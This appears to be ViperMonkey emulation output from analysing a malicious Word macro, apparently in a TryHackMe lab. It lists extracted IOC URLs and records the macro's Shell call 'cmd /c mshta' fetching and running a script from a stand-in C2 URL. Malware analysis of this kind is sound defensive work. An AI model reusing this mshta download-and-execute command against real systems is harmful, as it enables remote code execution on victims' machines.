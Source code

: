 ```
INFO     parsed Sub X544FE (): 1 statement(s)
INFO     Reading document variables...
INFO     Reading document comments...
INFO     Reading Shapes object text fields...
INFO     Reading InlineShapes object text fields...
INFO     Reading TextBox and RichEdit object text fields...
INFO     Reading custom document properties...
INFO     Reading embedded object text fields...
INFO     Reading document text and tables...
Traceback (most recent call last):
  File "/opt/vipermonkey/src/vipermonkey/vipermonkey/export_doc_text.py", line 17, in <module>
    from unotools import Socket, connect
ModuleNotFoundError: No module named 'unotools'
ERROR    Running export_doc_text.py failed. Command '['python3', '/opt/vipermonkey/src/vipermonkey/vipermonkey/export_doc_text.py', '--text', '-f', '/tmp/tmp_word_file_6155421071']' returned non-zero exit status 1         
INFO     Reading form variables...

-------------------------------------------------------------------------------
TRACING VBA CODE (entrypoint = Auto*):
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/sType/ResourceEvent'                                                   
INFO     Found possible intermediate IOC (URL): 'http://www.w3.org/1999/02/22-rdf-syntax-ns'                                                        
INFO     Found possible intermediate IOC (URL): 'http://purl.org/dc/elements/1.1/'                                                                  
INFO     Found possible intermediate IOC (URL): 'http://schemas.openxmlformats.org/drawingml/2006/main'                                             
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/mm/'                                                                   
INFO     Found possible intermediate IOC (URL): 'http://tryhackme.com/notac2cserver.sh'                                                             
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/photoshop/1.0/'                                                                
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/'                                                                      
INFO     Emulating loose statements...
WARNING  No entry points found. Using heuristics to find entry points...
INFO     ACTION: Found Heuristic Entry Point - params 'X544FE' - 
INFO     evaluating Sub X544FE
INFO     Calling Procedure: Shell("['cmd /c mshta http://tryhackme.com/notac2cserver.sh']")                                                         
INFO     Shell('cmd /c mshta http://tryhackme.com/notac2cserver.sh')
INFO     ACTION: Execute Command - params 'cmd /c mshta http://tryhackme.com/notac2cserver.sh' - Shell function                                     
INFO     ACTION: Found Heuristic Entry Point - params 'X544FE' - 
INFO     evaluating Sub X544FE
INFO     Calling Procedure: Shell("['cmd /c mshta http://tryhackme.com/notac2cserver.sh']")                                                         
INFO     Shell('cmd /c mshta http://tryhackme.com/notac2cserver.sh')
INFO     ACTION: Execute Command - params 'cmd /c mshta http://tryhackme.com/notac2cserver.sh' - Shell function                                     

Recorded Actions:
+----------------------+---------------------------+----------------+
| Action               | Parameters                | Description    |
+----------------------+---------------------------+----------------+
| Found Heuristic      | X544FE                    |                |
| Entry Point          |                           |                |
| Execute Command      | cmd /c mshta http://tryha | Shell function |
|                      | ckme.com/notac2cserver.sh |                |
| Found Heuristic      | X544FE                    |                |
| Entry Point          |                           |                |
```